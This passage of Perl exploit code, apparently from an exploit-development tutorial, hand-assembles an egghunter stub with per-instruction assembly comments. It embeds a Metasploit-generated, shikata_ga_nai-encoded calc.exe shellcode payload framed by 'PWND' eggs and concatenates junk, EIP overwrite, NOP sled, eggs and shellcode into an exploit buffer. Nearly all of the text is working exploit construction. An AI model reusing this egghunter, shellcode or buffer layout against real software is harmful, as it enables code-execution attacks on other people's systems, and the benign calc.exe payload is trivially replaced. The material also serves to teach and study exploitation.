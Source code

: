 ```perl
$egghunter = $egghunter . "\x74\xef"; # JE SHORT ;if zf flag = 1, access violation, jump to loop_inc_page

# check_egg
$egghunter = $egghunter . "\xb8\x50\x57\x4e\x44"; # MOV EAX,444E5750 ; valid address, move egg value (PWND) into EAX for comparison
$egghunter = $egghunter . "\x8b\xfa"; # MOV EDI,EDX ; set edi to current address pointer for use in scasd
$egghunter = $egghunter . "\xaf"; # SCASD ; compare value in EAX to dword value addressed by EDI
# ; increment EDI by 4 if DF flag is 0 or decrement if 1
$egghunter = $egghunter . "\x75\xea"; # JNZ SHORT ; egg not found, jump back to loop_inc_one
$egghunter = $egghunter . "\xaf"; # SCASD ; first half of egg found, compare next half
$egghunter = $egghunter . "\x75\xe7"; # JNZ SHORT ; only first half found, jump back to loop_inc_one

# found_egg
$egghunter = $egghunter . "\x8b\xf7"; # MOV ESI,EDI ; first egg found, move start address of shellcode to ESI for LODSB
$egghunter = $egghunter . "\x31\xc0"; # XOR EAX, EAX ; clear EAX contents
$egghunter = $egghunter . "\xac"; # LODSB ; loads egg number (1 or 2) into AL
$egghunter = $egghunter . "\x8b\xd7"; # MOV EDX,EDI ; move start of shellcode into EDX
$egghunter = $egghunter . "\x3c\x01"; # CMP AL,1 ; determine if this is the first egg or last egg
$egghunter = $egghunter . "\xac"; # LODSB ; loads size of shellcode from $egg1 into AL
$egghunter = $egghunter . "\x75\x04"; # JNZ SHORT ; cmp false, second egg found, goto second_egg

# first_egg
$egghunter = $egghunter . "\x01\xc2"; # ADD EDX, EAX ; increment EDX by size of shellcode to point to 2nd egg
$egghunter = $egghunter . "\x75\xe3"; # JNZ SHORT ; jump back to check_egg

# second_egg
$egghunter = $egghunter . "\x29\xc7"; # SUB EDI, EAX ; decrement EDX to point to start of shellcode
$egghunter = $egghunter . "\xff\xe7"; # JMP EDI ; execute shellcode

my $nops = "\x90" x 50;
my $egg1 = "\x50\x57\x4e\x44\x50\x57\x4e\x44\x01\xe3"; # egg = PWNDPWND; id = 1; offset to egg2 = 227

# Calc.exe payload [size 227]
# msfpayload windows/exec CMD=calc.exe R |
# msfencode -e x86/shikata_ga_nai -t perl -c 1 -b '\x00\x0a\x0d\xff'
my $shell = "\xdb\xcf\xb8\x27\x17\x16\x1f\xd9\x74\x24\xf4\x5f\x2b\xc9" .
"\xb1\x33\x31\x47\x17\x83\xef\xfc\x03\x60\x04\xf4\xea\x92" .
"\xc2\x71\x14\x6a\x13\xe2\x9c\x8f\x22\x30\xfa\xc4\x17\x84" .
"\x88\x88\x9b\x6f\xdc\x38\x2f\x1d\xc9\x4f\x98\xa8\x2f\x7e" .
"\x19\x1d\xf0\x2c\xd9\x3f\x8c\x2e\x0e\xe0\xad\xe1\x43\xe1" .
"\xea\x1f\xab\xb3\xa3\x54\x1e\x24\xc7\x28\xa3\x45\x07\x27" .
"\x9b\x3d\x22\xf7\x68\xf4\x2d\x27\xc0\x83\x66\xdf\x6a\xcb" .
"\x56\xde\xbf\x0f\xaa\xa9\xb4\xe4\x58\x28\x1d\x35\xa0\x1b" .
"\x61\x9a\x9f\x94\x6c\xe2\xd8\x12\x8f\x91\x12\x61\x32\xa2" .
"\xe0\x18\xe8\x27\xf5\xba\x7b\x9f\xdd\x3b\xaf\x46\x95\x37" .
"\x04\x0c\xf1\x5b\x9b\xc1\x89\x67\x10\xe4\x5d\xee\x62\xc3" .
"\x79\xab\x31\x6a\xdb\x11\x97\x93\x3b\xfd\x48\x36\x37\xef" .
"\x9d\x40\x1a\x65\x63\xc0\x20\xc0\x63\xda\x2a\x62\x0c\xeb" .
"\xa1\xed\x4b\xf4\x63\x4a\xa3\xbe\x2e\xfa\x2c\x67\xbb\xbf" .
"\x30\x98\x11\x83\x4c\x1b\x90\x7b\xab\x03\xd1\x7e\xf7\x83" .
"\x09\xf2\x68\x66\x2e\xa1\x89\xa3\x4d\x24\x1a\x2f\xbc\xc3" .
"\x9a\xca\xc0";

my $egg2 = "\x50\x57\x4e\x44\x50\x57\x4e\x44\x02\xeb"; # egg = PWNDPWND; id = 2; offset to egg1 = 235

my $sploit = $junk.$eip.$egghunter.$nops.$egg1.$shell.$egg2; # build sploit portion of buffer
```